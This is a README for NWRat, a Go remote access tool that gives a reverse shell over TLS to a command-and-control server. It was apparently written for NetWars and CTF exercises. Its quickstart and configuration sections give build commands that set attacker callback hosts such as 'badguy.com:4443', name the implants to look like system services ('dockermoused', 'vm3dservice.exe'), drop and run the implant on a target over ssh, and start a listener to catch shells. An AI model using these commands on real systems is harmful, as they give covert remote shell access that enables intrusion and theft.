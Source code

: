 NWRat
=====
Barebones RAT which provides a shell over TLS.  Originally written several
years ago for SANS' NetWars, the source was lost and re-written for quite a
long CTF which was part of a job interview.

As an implant it's a single binary which tries to make a TLS connection to the
C2 server at a set interval.  If a connection is established, a shell is
spawned and its stdio hooked up the TLS connection.  Further connection
attempts are still made when a shell is running to enable multiple shells on
target (or for if you forget `-c` when you ping something).

As a C2 server it listens for a connection from the implant, does a TLS
handshake and proxies stdio to the connection.  The listening socket is closed
when a connection is accepted to enable catching multiple callbacks.

Features:
- Single binary for both implant and server
- Shell over TLS
- Constant beacons
- No fussing about with someone else's post-exploitation code
- Compile-time implant configuration
- Cross-platform (though, only if `/bin/sh` exists on the platform)
- Encrypted on the wire
- Easy to set up and use
- Documentation which assumes some familiarity with [Go](https://golang.org)

For legal use only.

Quickstart
----------
```sh
# Get the source
go get github.com/magisterquis/nwrat
# Build the C2 server for the local platform
go build github.com/magisterquis/nwrat
# Build an implant for a Linux platform, setting the callback address
GOOS=linux go build -o dockermoused -ldflags="-X main.callbackAddr=badguy.com:4443" github.com/magisterquis/nwrat
# Put the implant on a Linux target it and run it
ssh target 'cat >/tmp/dockermoused && chmod 0700 /tmp/dockermoused && /tmp/dockermoused &' <./dockermoused
# Build an implant for a Windows platform, setting the callback address
GOOS=windows go build -o vm3dservice.exe -ldflags="-X main.callbackAddr=badguy.com:4443" github.com/magisterquis/nwrat
# Catch a callback
./nwrat -listen localhost:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

Implant
-------
The implant is configured using Go linker directives.  There are three options:

Option                | Default           | Description
----------------------|-------------------|------------
main.callbackInterval | `1m`              | Callback interval, in Go's parseable duration [syntax](https://golang.org/pkg/time/#ParseDuration)
main.callbackAddr     | `example.com:443` | Callback address and port
main.implantDebug     | _unset_           | Set to any string to have the implant print debugging messages

As an example, to have the implant call back to `kittens.com:4433` every three
seconds and print debugging output, it would be built something like

```sh
go build -ldflags="-X main.callbackInterval=3s -X main.callbackAddr=kittens.com:4433 -X main.implantDebug=sure" github.com/magisterquis/nwrat
```

Editing the `var` block at the top also works.

Running the binary with no arguments causes it to function as the implant (as
opposed to the C2 server).

C2 Server
---------
When used with `-listen` the binary catches a callback.  A listen address and TLS
certificate and key corresponding to the domain the implant expects need to be
supplied via command-line options, similar to

```sh
./nwrat -listen 0.0.0.0:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

It's not a bad idea to wrap `nwrat` in [rlwrap](https://github.com/hanslub42/rlwrap)
or something similar, as there'll be no TTY or readline library.

When one side or the other disconnects, a message similar to
```
2020/07/22 00:28:25 Sent 206 bytes to implant
```
will be logged.

Windows
-------
At the moment, the C2 side should work just fine, but the implant won't be able
to start `/bin/sh`.  Feel free to submit a pull request.
